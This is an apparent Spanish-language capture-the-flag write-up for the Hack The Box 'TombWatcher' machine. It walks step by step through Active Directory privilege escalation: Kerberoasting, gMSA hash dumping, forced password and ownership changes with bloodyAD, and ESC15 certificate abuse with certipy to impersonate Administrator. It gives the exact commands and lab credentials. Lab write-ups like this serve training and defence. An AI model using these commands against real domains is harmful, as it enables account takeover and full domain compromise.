







---



Machine Information

As is common in real life Windows pentests, you will start the TombWatcher box with credentials for the following account: `henry : H3nry_987TGV!`

---

La máquina **TombWatcher** de Hack The Box representa un entorno corporativo con Active Directory configurado de forma realista, donde el atacante comienza con credenciales válidas de un usuario de bajo privilegio. Este escenario emula una situación habitual en auditorías internas, en la que se parte con acceso inicial limitado y se debe escalar privilegios dentro del dominio.

Durante el compromiso se aprovechan múltiples debilidades comunes en entornos Active Directory, incluyendo permisos delegados mal configurados, abuso de cuentas gMSA, privilegios excesivos en objetos de AD y vulnerabilidades en plantillas de certificados. Todo ello permite una escalada progresiva hasta obtener acceso como **Administrador de dominio**.
###  Resumen del flujo 

- **WriteSPN (Henry → Alfred):**  
    Henry puede escribir SPN sobre Alfred → Kerberoasting.
    
- **Auto-adición a grupo (Alfred → INFRASTRUCTURE):**  
    Alfred se añade al grupo privilegiado.
    
- **Lectura de gMSA (INFRASTRUCTURE → ANSIBLE_DEV$):**  
    Se obtiene el hash NTLM del gMSA.
    
- **Reset de contraseña sin conocer la anterior (ANSIBLE_DEV$ → SAM):**  
    Se cambia la contraseña de SAM.
    
- **Control total sobre otro usuario (SAM → JOHN):**  
    SAM toma control de JOHN (propietario, permisos, contraseña).
    
- **Privilegios en OU (JOHN → ADCS):**  
    JOHN controla la unidad organizativa ADCS.
    
- **Plantilla de certificado vulnerable (ESC15 - cert_admin):**  
    cert_admin abusa de WebServer con `Certificate Request Agent`.
    
- **Autenticación como Administrator con certificado:**  
    cert_admin solicita un certificado válido para Administrator.
    

---

# Enumeración Inicial


Sincronizamos con el Dominio/IP. 
Recolectamos los datos del dominio con BloodHound usando al usuario facilitado por HTB:


Como podemos observar en la imagen inferior perteneciente a BloodHound, HENRY@TOMBWATCHER.HTB posee el privilegio `WriteSPN` al usuario ALFRED@TOMBWATCHER.HTB.


Adquirimos el hash TGS de Alfred:

```
python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```


Lo craqueamos.

El usuario ALFRED@TOMBWATCHER.HTB puede autoañadirse al grupo INFRASTRUCTURE@TOMBWATCHER.HTB.

```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u 'ALFRED' -p 'basketball' add groupMember INFRASTRUCTURE ALFRED
```

ANSIBLE_DEV$@TOMBWATCHER.HTB es una cuenta de servicio administrada de grupo (gMSA). El grupo INFRASTRUCTURE@TOMBWATCHER.HTB puede adquirir el NTLM del gMSA ANSIBLE_DEV$@TOMBWATCHER.HTB.

```
python3 gMSADumper.py -u Alfred -p <passwd> -d tombwatcher.htb
```


-  ANSIBLE_DEV$@TOMBWATCHER.HTB posee el privilegio de modificar la passwd de SAM@TOMBWATCHER.HTB sin conocer la actual.

```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u 'ansible_dev$' -p '<NT hash>' set password SAM 'P@ssw0rd123!'
```




# Acceso

El usuario SAM@TOMBWATCHER.HTB tiene el privilegio de modificar el dueño de  JOHN@TOMBWATCHER.HTB.

Cambiamos el propietario del objeto de usuario JOHN a SAM:
```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u SAM -p 'P@ssw0rd123!' set owner JOHN 'SAM'
```

Concedemos todos los permisos (GenericAll) a SAM sobre el objeto de JOHN:

```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u SAM -p 'P@ssw0rd123!' add genericAll JOHN 'SAM'
```

Cambiamos la contraseña de JOHN sin necesitar la anterior.

```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u SAM -p 'P@ssw0rd123!' set password JOHN 'P@ssw0rd123!'
```

Accedemos con Evil-WinRM usando las nuevas credenciales de JOHN:

```
evil-winrm -i dc01.tombwatcher.htb -u john -p 'P@ssw0rd123!'
```


- `user.txt` conseguida.
# Movimiento lateral y Escalada

Revisando las plantillas de certificados con `certipy` vemos que el usuario con RID 1111 tiene permisos de inscripción (`Enrollment Rights`) y permiso de escritura en la propiedad `Enroll` sobre la plantilla `WebServer`.

Este comando muestra los usuarios eliminados en Active Directory, junto con sus propiedades como el SID, GUID y ubicación anterior en el directorio.

```
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties objectSid, lastKnownParent, ObjectGUID | Select-Object Name, ObjectGUID, objectSid, lastKnownParent | Format-List
```



El usuario  JOHN@TOMBWATCHER.HTB posee privilegios de `GenericAll` sobre la OU ADCS@TOMBWATCHER.HTB.


Restauramos usuario JOHN en la OU ADCS y cambiamos la contraseña de cert_admin:

```
 Restore-ADObject -Identity '938182c3-bf0b-410a-9aaa-45c8e1a02ebf'
```

```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u JOHN -p 'P@ssw0rd123!' set password cert_admin 'P@ssw0rd123!'
```

Usamos certipy para buscar vulnerabilidades con cert_admin:

```
certipy find -u 'cert_admin' -p 'P@ssw0rd123!' -dc-ip 10.10.11.72 -vulnerable -stdout
```


Encontramos que existe la vulnerabilidad de ESC15.



Despues de ver los resultado, solicitamos un certificado tipo WebServer al servidor CA especificado usando el usuario cert_admin con la política "Certificate Request Agent":

```
certipy req -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' -target dc01.tombwatcher.htb -ca 'tombwatcher-CA-1' -template 'WebServer' -application-policies 'Certificate Request Agent'  
```

Solicitamos un certificado tipo User para el administrador actuando en su nombre, guardándolo en un archivo PFX:

```
certipy req -target tombwatcher.htb -dc-ip 10.10.11.72 -u 'cert_admin' -p 'P@ssw0rd123!' -ca tombwatcher-CA-1 -template User -pfx 'cert_admin.pfx' -on-behalf-of 'tombwatcher\Administrator'
```

Autenticamos al controlador de dominio usando el certificado almacenado en 'administrator.pfx':

```
certipy auth -dc-ip 10.10.11.72 -pfx 'administrator.pfx'
```


Conectamos al servidor remoto usando Evil-WinRM con el hash NT del administrador para iniciar sesión:

```
evil-winrm -i dc01.tombwatcher.htb -u Administrator -H <NT hash>
```


---
HAPPY HACKING

---


---